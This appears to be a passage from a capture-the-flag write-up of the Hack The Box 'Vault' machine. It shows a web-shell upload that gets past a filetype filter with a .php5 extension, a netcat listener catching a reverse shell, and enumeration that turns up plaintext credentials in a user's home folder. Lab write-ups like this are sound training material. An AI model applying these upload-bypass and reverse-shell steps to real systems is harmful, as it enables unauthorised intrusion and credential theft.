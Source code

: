 Awesome, looks like we have something we can work with... the `/sparklays/admin.php` and `/sparklays/design/design.html` endpoints look like a good start point.

![vault3](/images/vault3.png)

![vault4](/images/vault4.png)

## Initial Access

### File Upload: /sparklays/design/changelogo.php

Let's try and upload a web shell and see what happens.

![vault5](/images/vault5.png)

Let's try all the different methods to bypass this filetype check.
1. Intercepting the request and changing the MIME type: **Nope**
2. Change the filetype: **Bingo!**
In this instance, we had success with a `.php5` extension.

![vault6](/images/vault6.png)

Now navigate to your file at `http://10.129.121.48/sparklays/design/uploads/shell.php5` and make sure you have your listener running. Enjoy your shell!

```sh
┌──(pl4stic㉿kali)-[~/htb/vault]
└─$ nc -nvlp 4444 
listening on [any] 4444 ...
connect to [10.10.14.142] from (UNKNOWN) [10.129.121.48] 36478
Linux ubuntu 4.13.0-45-generic #50~16.04.1-Ubuntu SMP Wed May 30 11:18:27 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
 12:33:27 up 43 min,  0 users,  load average: 0.01, 0.01, 0.02
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can\'t access tty; job control turned off
$ whoami
www-data
```

## Shell as www-data

Doing some filesystem enumeration, we find that we have access to `dave`'s home folder, and some interesting files within.

```sh
www-data@ubuntu:/home/dave/Desktop$ ls -al
ls -al
total 20
drwxr-xr-x  2 dave dave 4096 Jun  2  2021 .
drwxr-xr-x 18 dave dave 4096 Jun  2  2021 ..
-rw-rw-r--  1 alex alex   74 Jul 17  2018 Servers
-rw-rw-r--  1 alex alex   14 Jul 17  2018 key
-rw-rw-r--  1 alex alex   20 Jul 17  2018 ssh
www-data@ubuntu:/home/dave/Desktop$ cat Servers
cat Servers
DNS + Configurator - 192.168.122.4
Firewall - 192.168.122.5
The Vault - x
www-data@ubuntu:/home/dave/Desktop$ cat key
cat key
itscominghome
www-data@ubuntu:/home/dave/Desktop$ cat ssh
cat ssh
dave
```